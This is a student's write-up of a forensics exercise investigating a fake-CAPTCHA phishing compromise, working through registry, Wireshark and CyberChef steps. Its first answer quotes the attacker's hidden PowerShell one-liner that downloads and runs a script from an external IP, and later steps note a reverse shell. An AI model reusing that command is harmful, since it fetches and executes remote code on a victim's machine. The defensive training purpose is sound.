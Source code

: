 
##### Sherlock Scenario

Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.


Q1: It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.

A: powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"

We go to the hive of the indicated user.

![](../../Img/Pasted%20image%2020250513152918.png)

Load it and go to bookmark.
Under RunMRU we find it.

![](../../Img/Pasted%20image%2020250513153145.png)

Q2: At what time in UTC did the malicious payload execute?

A: 2024-09-23 05:07:45

In the Q1 screenshot.

Q3: The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?

A: 579284442094e1a44bea9cfb7d8d794c8977714f827c97bcb2822a97742914de

To get the hash i need the file, to get the file we use wireshark to open the pcapng file and search.
One of the only 2 things that i have is the ip, so we use as filter.
Looking through the packets we spot the 2nd thing that we know, the file name.

![](../../Img/Pasted%20image%2020250513153952.png)

After checking that the download name it's the same as the execution name, we search for it in Export HTTP.

![](../../Img/Pasted%20image%2020250513154311.png)

Get the hash.

![](../../Img/Pasted%20image%2020250513154506.png)

Q4: To which port did the reverse shell connect?

A: 6969

We see what the file has.

![](../../Img/Pasted%20image%2020250513155127.png)

Decode it. (I use magic) (https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Decode_text('UTF-16LE%20(1200)'))

![](../../Img/Pasted%20image%2020250513155219.png)

Q5: For how many seconds was the reverse shell connection established between C2 and the victim's workstation?

A: 403

With the port, we add it to the filter in wireshark and calculate.

![](../../Img/Pasted%20image%2020250513155836.png)

![](../../Img/Pasted%20image%2020250513160049.png)

Q6: Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim's clipboard?

A: 

I remember that in Q3 i saw clear http traffic, so i went to see it.

![](../../Img/Pasted%20image%2020250513160502.png)

It seems to be the web page.
